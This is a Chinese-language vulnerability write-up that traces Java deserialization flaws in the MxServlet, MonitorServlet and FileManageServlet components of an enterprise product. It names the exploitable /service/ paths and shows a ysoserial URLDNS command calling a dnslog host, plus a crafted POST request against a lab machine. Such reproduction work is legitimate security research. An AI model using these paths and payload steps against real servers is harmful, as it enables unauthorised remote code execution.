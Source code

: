 <br/>  

<br/> 进一步阅读MxServlet.java反编译的源码，看到在doAction方法下，存在对request请求的数据直接使用对象输入流的readObject方法进行反序列化。因为通过ois传入的序列化对象可控，因此在后续自动调用该对象的readObject方法时，就会可能存在一系列的套娃调用的问题。<br/>  

<br/> 查看MonitorServlet.java源码信息，发现也存在同样的反序列化的问题。序列化的对象数据也是直接从request的请求中获得的。<br/>  

<br/> 搜索文件关键字，在modules/uap/META-INF/M_monitortool50.upm中找到该服务类的组件名称。

```
&lt;?xml version='1.0' encoding='utf-8'?&gt;
&lt;module&gt;
    &lt;public&gt;
        &lt;component name="mxservlet"&gt;
            &lt;implementation&gt;nc.bs.framework.mx.MxServlet&lt;/implementation&gt;
        &lt;/component&gt; 
        &lt;component name="monitorservlet"&gt;
            &lt;implementation&gt;nc.bs.framework.mx.monitor.MonitorServlet&lt;/implementation&gt;
        &lt;/component&gt; 
    &lt;/public&gt;
&lt;/module&gt;

```

根据之前的路由规则以及实例化服务类的方式，用组件名称就能构造出可以触发漏洞路径`/service/mxservlet`和`/service/monitorservlet`<br/> 在寻找其他反序列化漏洞时，正好发现一个通告，对通告中的服务类进行查找，尝试复现该漏洞。<br/>  

<br/> 在uapsystemframework.jar源码中发现FileManageServlet类的doAction方法存在与之前类似的反序列化的问题。<br/>  

<br/> 参照前文可构造漏洞路径`/service/FileManageServlet`，后面需要对以上的触发路径进行验证。

### 反序列化漏洞验证

在利用cc链进行命令执行前，可以使用URLDNS对之前的阅读源码的理解进行验证。

> 
java -jar ysoserial-all.jar URLDNS "[http://mxtest.97886226fd.ipv6.1433.eu.org."](https://97886226fd.ipv6.1433.eu.org./) &gt;mxtest.bin


之后，构造请求数据包，请求的路径为之前构造出来的路径，以`/service/mxservlet`为例<br/> 将生成的序列化数据直接从文件中粘贴。

```
POST /service/mxservlet HTTP/1.1
Host: 192.168.126.131:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/data
Cookie: JSESSIONID=AE08AAAA9C9FC99389408FE028A93302.server
Connection: close

```

<br/> 在dnslog中获得请求，证明该路径下确实存在对请求数据包中的对象直接反序列化的问题。<br/>  

<br/> 为了对反序列化利用链进行探测，向大家推荐一下Yakit的Fuzztag功能。通过dnslog对可用的利用链进行初步判断。<br/>  
